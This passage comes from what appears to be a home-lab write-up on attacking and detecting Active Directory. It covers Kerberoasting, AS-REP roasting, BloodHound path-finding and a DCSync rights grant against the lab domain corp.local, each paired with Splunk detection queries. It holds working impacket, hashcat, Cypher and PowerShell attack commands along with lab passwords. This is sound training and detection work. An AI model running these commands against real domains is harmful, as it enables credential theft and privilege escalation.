  

- `12-splunk-events-flowing-ws01-security.png` — confirmed WS01 events arriving too (201 events: 4634, 4672, 4624...)
  


**Problem I hit here:** the first time I set up `inputs.conf`, I forgot to restart the forwarder service, so Splunk showed 0 events even though the config file looked correct. Lesson: `Restart-Service SplunkForwarder` (or `splunk.exe restart`) after any `inputs.conf` change — it does not hot-reload.

---

## Part 2 — Kerberoasting

### What it is
`svc-sql` has a SPN registered and a weak password. Any authenticated domain user can request a Kerberos service ticket (TGS) for any SPN-registered account — no special privilege needed. That ticket is partly encrypted with a key derived from the service account's own password. If the password is weak, you can crack it completely offline, with zero further interaction with the domain.

### Attack
First I reset `svc-sql`'s password to something weak on purpose (`Password1`):
- `screenshots/02-lab-buildout/13-svc-sql-password-reset-weak-password1.png`
  


```bash
impacket-GetUserSPNs -dc-ip 192.168.154.10 corp.local/karim:'Passw0rd!' -request -outputfile kerb_hash.txt
hashcat -m 13100 kerb_hash.txt /usr/share/wordlists/rockyou.txt
```
- `14-hashcat-crack-svc-sql-kerberoast-hash.png` — cracked almost instantly, `svc-sql : Password1`
  

- `15-getuserspns-enumerate-spn-accounts.png` — the full list of every SPN-bearing account in the domain (this is how an attacker finds targets in the first place — 51 of them in my BadBlood-populated domain)
  


### Detection
Event 4769 (TGS Request) with `Ticket_Encryption_Type=0x17` (RC4). A legitimate modern client requests AES; a Kerberoasting tool deliberately downgrades to RC4 because RC4-encrypted tickets are the only ones practical to crack.

- `16-splunk-4769-rc4-tgs-events-raw.png` — raw 4769 events with RC4
  


```spl
index=ad_lab EventCode=4769 Ticket_Encryption_Type=0x17 Account_Name!="*$"
| stats count, dc(Service_Name) as distinct_targets by Account_Name
| where count > 5
```
- `17-splunk-kerberoasting-requester-karim.png` — `karim` → 51 requests
  


### Problem I hit — and this one actually confused me for a while
When I first built the dashboard (much later, in Part 7), the Kerberoasting panel showed `karim@CORP.LOCAL` with a count of 51 — and I genuinely thought that meant `karim` was the account that got roasted. **That's backwards.**

In a 4769 event, `Account_Name` is the account that **requested** the ticket — i.e. the attacker's own identity, not the victim. The account actually being targeted/roasted is in `Service_Name`. So the correct reading is: `karim` requested 51 RC4 tickets, targeting 51 different service accounts (one of which, `svc-sql`, is the one with the crackable weak password).

I only caught this because the dashboard numbers didn't make sense ("why does it say `karim` was roasted 51 times, I only cracked one account") and had to go back and split the detection into two separate views:
- `18-splunk-kerberoasting-requester-vs-targets-p1.png` — who's requesting (the attacker)
  

- `19-splunk-kerberoasting-requester-vs-targets-p2.png` — which accounts were targeted (the victims)
  


**Lesson for next time:** always check field semantics against the actual MS-KILE event schema before trusting a field name's English meaning. `Account_Name` on 4769 is not "the account this event is about" — it's "whoever is asking."

Full writeup of this gotcha is also in [`detections/01_kerberoasting.yml`](detections/01_kerberoasting.yml) under `critical_field_note`.

---

## Part 3 — AS-REP Roasting

### What it is
Similar idea to Kerberoasting, but attacks the first Kerberos message (AS-REQ) instead of the TGS step. If an account has "Do not require Kerberos preauthentication" enabled, anyone can request an AS-REP for it with **zero credentials at all**, and that AS-REP is crackable the same way.

### Setup & Attack
```powershell
New-ADUser -Name "Helpdesk Service" -SamAccountName svc-helpdesk -UserPrincipalName svc-helpdesk@corp.local ...
Set-ADAccountControl -Identity svc-helpdesk -DoesNotRequirePreAuth $true
```
- `screenshots/02-lab-buildout/20-create-svc-helpdesk-asrep-roastable.png`
  


```bash
impacket-GetNPUsers corp.local/ -usersfile users.txt -outputfile asrep_hash.txt -dc-ip 192.168.154.10
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txt
```
- `21-hashcat-crack-svc-helpdesk-asrep-hash.png` — cracked, `svc-helpdesk : Welcome1`
  


### Detection
Event 4768 with `Pre_Authentication_Type=0`.
```spl
index=ad_lab EventCode=4768 Pre_Authentication_Type=0
| stats count, values(Client_Address) as source_ip by Account_Name
```
- `22-splunk-asrep-roasting-detection-178-events.png` — 178 matching events. This number is high because this technique can be used to *enumerate* the whole domain (you can request an AS-REP for any username whether or not it has the flag set — you just only get something crackable back if it does), so a real attacker would fire this at every known username, which is exactly what showed up here.
  

- `screenshots/03-kerberoasting-asrep-detection/01-splunk-saved-search-kerberoasting-detection.png` — saved this as a Splunk report so I don't have to retype the SPL every time
  


**Thing I learned here:** unlike Kerberoasting, AS-REP Roasting doesn't need any valid credentials at all to attempt — it's a pre-auth attack. That makes the `Client_Address` field genuinely useful for attribution here, where in the Kerberoasting case I had to rely on `Account_Name` instead.

---

## Part 4 — BloodHound Recon

### Why I did this
Before touching DCSync (Part 5), I wanted to find the privilege-escalation path the "real" way — the way an actual attacker would — instead of just being told in advance "karim has DCSync rights." BloodHound maps every AD relationship (group membership, ACL rights, sessions) into a graph and lets you query shortest paths.

### What I did
- `screenshots/04-bloodhound-recon/01-bloodhound-full-attack-graph.png` — first look, collected the whole domain, way too dense to read
  

- `02-bloodhound-karim-to-domain-admins-path.png` — ran a targeted Cypher query instead:
  

  ```
  MATCH p=shortestPath((n:User {name:"KARIM@CORP.LOCAL"})-[*1..]->(m:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN p
  ```
  This is what actually revealed `karim` had `GenericAll`/`AllExtendedRights` rights that eventually chain to Domain Admins — this is how I found the DCSync misconfiguration *before* exploiting it, the same way a real attacker or a red-teamer would.
- `03-bloodhound-node-info-karim.png`, `04-bloodhound-node-info-nikki-white.png`, `05-bloodhound-node-info-distlist-group.png`, `06-bloodhound-node-info-users-container.png`, `07-bloodhound-node-info-domain-admins.png` — clicking through node details to understand each hop in the path
  

- `08-nxc-ldap-net-rpc-lateral-exploration.png` — tried a side-path using `nxc` + `net rpc` to pivot through another account (`NIKKI_WHITE`) found during recon. This was a dead end for this lab (wrong password complexity, no valid share access) but I kept it in because it's a realistic example of recon leading nowhere, which happens a lot in real engagements.
  

- `09-bloodhound-dcsync-edges-view.png`, `10-bloodhound-dcsync-edges-zoomed.png` — filtered specifically for `DCSync` edges across the whole domain. Found a baseline set of accounts BadBlood/my setup had pre-seeded with DCSync-style rights: `CARMEN_CAMPBELL`, `WILBUR_LAWSON`, `CHRISTA_LINDSEY`, `LOUISA_ALLISON`, `BEATRICE_FARMER`, `ADMINISTRATOR`, `DC01$`.
  


  **Important distinction I had to note down:** `karim` is **not** in that baseline list. That told me `karim`'s DCSync rights (added separately, see Part 5) were a genuine, isolated misconfiguration worth investigating — not just lab noise I was misreading.
- `11-bloodhound-karim-to-carmen-campbell-path.png`, `12-bloodhound-nikki-white-shortest-paths.png` — more path exploration between other accounts, for practice reading the graph UI
  

- `13-bloodyad-add-domain-admins-attempt-denied.png` — tried using `bloodyAD` to actually add `NIKKI_WHITE` directly to Domain Admins. Got `insufficientAccessRights` — good, that confirms that particular account path is a dead end and not a real escalation route, which is exactly the kind of negative result BloodHound is also useful for confirming.
  


### Clean full-resolution exports
The screenshots above are all cropped VM captures (useful for showing the exact commands/context), but I also exported two of the graphs directly from BloodHound at full resolution, without any VM window chrome, because they're genuinely hard to read at screenshot size:

- `14-bloodhound-full-graph-clean-export.png` — the complete attack-path graph for the whole domain, every relationship BloodHound collected
  

- `15-bloodhound-dcsync-edges-clean-export.png` — just the `DCSync` edges, filtered down and zoomed in. This is the clearest single image in the whole project for explaining the DCSync misconfiguration at a glance — every account with a `DCSync` edge pointing straight at `CORP.LOCAL`, `karim` among them
  

**Note:** BloodHound/SharpHound collection itself generates almost no distinctive event on the wire — it's mostly ordinary LDAP reads. I couldn't find a clean single-event detection for "someone ran BloodHound" the way I could for the Kerberos attacks. The closest proxy is volume-based (a huge number of distinct LDAP object reads from one account in a short window), and I documented that limitation honestly in [`detections/03_bloodhound_path.yml`](detections/03_bloodhound_path.yml) instead of pretending there's a clean signature.

---

## Part 5 — DCSync (the big one)

This is the part of the lab I spent the most time on, because I didn't just want to run the attack — I wanted to actually play incident-responder and figure out everything a real investigation would need to answer.

### The misconfiguration
I manually granted `karim` the two replication rights that let any account impersonate a Domain Controller for replication purposes:
```powershell
$karim = (Get-ADUser karim).SID
$acl = Get-Acl "AD:\$((Get-ADDomain).DistinguishedName)"
$guidGetChanges    = [GUID]"1131f6aa-9c07-11d1-f79f-00c04fc2dcd2"
$guidGetChangesAll = [GUID]"1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
$acl.AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule($karim,"ExtendedRight","Allow",$guidGetChanges)))
$acl.AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule($karim,"ExtendedRight","Allow",$guidGetChangesAll)))
Set-Acl "AD:\$((Get-ADDomain).DistinguishedName)" $acl
```
- `screenshots/05-dcsync-attack-and-detection/01-grant-karim-dcsync-rights-acl-injection.png`
  

- `03-confirm-timestamp-after-acl-change.png` — noted the exact time I did this, for later correlation
